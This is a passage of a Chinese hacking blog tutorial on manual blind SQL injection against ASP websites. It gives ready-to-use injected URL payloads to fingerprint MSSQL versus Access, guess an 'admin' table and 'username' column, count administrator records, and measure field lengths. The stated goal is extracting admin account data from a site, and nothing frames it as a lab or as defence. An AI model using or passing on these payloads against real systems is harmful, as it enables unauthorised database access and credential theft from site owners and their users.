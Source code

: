 http://www.xxxxxxxx.com/article/as.asp?id=875 and exists (select count(*) from msysobjects)，按刚才理解MSSQL数据库的方法去理解这条语句！这里要注意，提交这个语句是不会返回正常页面的！就算是ACCESS数据库也不会返回正常的页面！因为默认情况下，我们是没有权限查询这个表里的数据的！不过WEB会提示我们 “记录无法读取;'msysobjects'没有读取权限”！如果返回的是这个错误信息的话，那就证明是ACCESS数据库了！！简单地来说就是两条查询语句：
and exists (select count(*) from sysobjects)
and exists (select count(*) from msysobjects)

     如果第一条返回正常，那就是MSSQL数据库，如果两条都不正常，那就是ACCESS数据库了（这里只讨论MSSQL和ACCESS)

     注意：上面讲的全是参数是int的时候的检测方法，如果参数是字符型的，那就先要在参数后面加上单引号，然后再在查询语句最后加上";--"

     3。猜表、字段名、检测记录数、检测字段长度。
   我按照工具注入的流程给大家讲！

    A。猜表！
    用到的语句：and exists (select count(*) from 你要猜的表名) 。在注入点后加上这句话，如果返回正常，说明你猜的表是存在的！比如
http://www.xxxxxxxx.com/article/as.asp?id=875 and exists (select count(*) from admin)，如果返回正常，说明admin这张表存在！如果返回错误，就说明不存在！。别的表也都是这么猜！

    B。猜列！

    用到的语句：and (select count(列名) from 猜到的表名)>0 。在注入点后加上这句话，如果返回正常，说明你猜的列是存在的！比如
http://www.xxxxxxxx.com/article/as.asp?id=875 and (select count(username) from admin)>0，如果返回正常，那username这个列就存在！不过首先要确定from后面跟的表名要是存在的哦！不然你怎么猜都是错的！

     C。检测记录数

    用到的语句：and (select count(*) from 猜到的表名)>X （X是个数字）。在注入点后加上这句话，并不停地变换X这个数字，直到猜到准确的记录数为止！比如http://www.xxxxxxxx.com/article/as.asp?id=875 and (select count(*) from admin)>2 ，这个句子是猜admin表里有几条记录的，也就是有几个管理员（因为一个管理员对应一条记录嘛！）。如果返回正常，说明admin这张表里的记录数大于 2。这个时候我们把2改成别的大一点的数！比如5，如果返回错误，说明管理员的个数在2和5之间，2和5之间的整数是3和4，这个时候我们变换语句为http://www.xxxxxxxx.com/article/as.asp?id=875 and (select count(*) from admin)=3或者=4，哪个返回正常那管理员的个数就是哪个。如果提交>5还返回错误，那就再取一个更大的数，再重复刚才的动作就可以猜到记录数！

    D。检测字段长度

    用到的语句：and (select top 1 len(列) from 表)>X (X和刚才一样！)。我来解释一下这个句子，select top 1是查询第一条数据的意思！（在WEB环境下不支持多行回显！只是一次查询的数据不能超过一行！）,len是MSSQL里的一个函数，用法是len(), （）里可以是字符串也可以是表达式也可以是列名！知道这些，大家应该可以看懂了吧！后面那个X的变换方法上面的一样！

From：**[樱木花盗's BLOG](http://www.03389.com/BLOG/user1/qq66565841/)**

